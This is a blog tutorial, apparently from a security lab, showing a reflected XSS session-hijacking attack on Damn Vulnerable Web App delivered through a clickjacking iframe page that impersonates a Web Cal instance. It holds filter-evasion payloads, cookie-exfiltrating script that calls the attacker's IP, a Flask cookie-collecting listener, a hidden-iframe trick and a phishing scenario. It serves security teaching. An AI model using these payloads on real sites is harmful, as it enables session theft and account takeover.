 ```yaml
---
layout: post
title: PoC - Reflected XSS Attack Through iFrame
categories:
- reflected xss
- web hacking
---
```


Imagine we are targetting an instance of __Damn Vulnerable Web App__ on an enterprise network. In this totally realistic scenarior, there is also an instance of Web Cal running on the same network. The Web Cal instance is vulnerable to clickjacking. To gain access to DVWA, we can create a malicious web page that masquerades as the Web Cal instance using an iframe. We then could place a second iframe into the page that executes a reflected XSS attack against the target DVWA instance on page load. We could then use social engineering to trick a user into navigating to our fake Web Cal page, and by doing so steal the user's DVWA session. 

On my lab network, the attacking machine is located at 192.168.1.169. Both the DVWA instance and Web Cal are running on a shared server with an IP of 192.168.1.30. When you see these addresses in the tutorial, remember to substitute them for your own.

#Step 0

We start out by "cloning" the Web Cal instance using an iframe. Our index page is set up in such a way that the iframe expands to take up the entire width of the screen, no matter what device it is loaded on.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Web Cal</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

    </body>
</html>

{% endraw %} 
{% endhighlight %}

When we load the page, it looks exactly like the Web Cal instance.

#Step 1

Once we have "cloned" the Web Cal instance, it's time to find a reflected XSS vulnerability in the target site. For this example we will be using the Reflected XSS page on __Damn Vulnerable Web App__, with difficulty set to medium.

We start out by attempting to pass in a script tag directly through the URL using the __name__ parameter.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<script>alert('xss');</script>#
{% endraw %} 

This request seems to fail, and looking at the source code reveals some kind of filtering.

![oops]({{ site.baseurl }}images/iframes/xss-fail.png)

Filters can sometimes be evaded by randomizing the capitilization of the script tags, as shown below.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<sCriPt>alert('xss');</sCriPt>#
{% endraw %} 

Success - the filter evasion works.

![oops]({{ site.baseurl }}images/iframes/xss-success.png)

#Step 2

Now that we have identified a means to reflect scripts off of the page, let's try to execute a script that writes an image tag to the DOM. For our image, let's use this glorious picture of John Cena.

![john cena](http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png)

The following url should successfully load the image. We can't just straight up drop an image tag into the page, because doing so would not allow us to include the user's session cookie in the image tag. Insted we write the image tag to the DOM using a script tag.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#

{% endraw %} 

#Step 3

Now that we can write images to the page, let's do it from an iframe. We take the URL we created in step 2 and use it as the frame's source. We place the iframe in the index.html file we created earlier.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Test Layout</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#"></iframe>


    </body>
</html>

{% endraw %} 
{% endhighlight %}

We then try to access our index.html page. If we see John Cena inside the iframe, we know the image tag injection worked.

![oops]({{ site.baseurl }}images/iframes/oops.png)

Uh oh! Check out the results above. Simply escaping the double quotes for our image tag's source does not seem to be working. 

To fix this problem, we need to use html entities for the quotes in the image tag. We modify the iframe we added to index.html to look like this:

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Success! John Cena has entered the iframe.

![oops]({{ site.baseurl }}images/iframes/cena-in-frame.png)

#Step 4

Now for the finishing touches of our attack. Let's get rid of John Cena and aim our image's src to a a non existent image tag on our server. We'll attempt to set the filename to the victim's cookie. If all goes according to plan, the user's cookie should show up in our httpd error log.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;192.168.1.169:4444?c='+document.cookie+'&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing /var/log/httpd/error.log while making a request to http://localhost/ reveals that something isn't quite right. No record of our attempt to access the invalid image file shows up in our logs, which tells us that the request never happened in the first place.

![oops]({{ site.baseurl }}images/iframes/log-nope.png)

To learn why, we look at the source code of our loaded iframe. Notice how the image that we tried to write to the server does not contain any cookies. Instead, we see the following value for the tag's source attribute.

![oops]({{ site.baseurl }}images/iframes/concat-fail.png)

The problem is that since the image tag is being passed in through the URL, our plus signs are being converted into whitespace. This prevents us from easily using JavaScript string concatenation. The workaround is to use array joins instead.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169/',document.cookie,'.png&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing our log file while reloading the page once again, we see that the image request has gone through successfully. 

![oops]({{ site.baseurl }}images/iframes/log-win.png)

Awesome. Now all we have to do is modify the image url slightly so that it passes the victim's cookies as a GET parameter.


{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

We then use a quick Python script to set up a listener for the GET request.

{% highlight python %}
	
	from flask import Flask, request, render_template, abort
	from flask.ext.cors import CORS
	
	app = Flask(__name__)
	app.debug = True
	
	CORS(app)
	
	@app.route('/')
	def index():
	
	    cookies = request.args.get('c')
	    with open('cookies.txt', 'a') as fd:
	        print
	        print
	        print
	        print cookies
	        fd.write(cookies)
	    return abort(404)
	
	app.run(host='0.0.0.0', port=4444)

{% endhighlight %}


After reloading the page, we get the following output.


![oops]({{ site.baseurl }}images/iframes/cookies-stolen.png)

#Step 5

The mechanics behind the session hijacking attack are tested and complete. Now we just modify the iframe we added to our index.html page such that it is lifted completely outside of the visible portion of the page. By doing this, user is completely unaware that they've visited DVWA, let alone had their creds stolen.

{% highlight html %} 
{% raw %} 

	<iframe style="position:absolute;top:-9999px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Here's a quick video on how the attack could play out. In the video, an email is sent to an administrator complaining that the Wiki page is down. The administrator opens the email, clicks the link, and navigates to what appears to be the Wiki page. The administrator's session is stolen, and the administrator navigates away from the page believing that the ticket is a false alarm.

<iframe width="560" height="315" src="https://www.youtube.com/embed/--9faUnC-k4" frameborder="0" allowfullscreen></iframe>

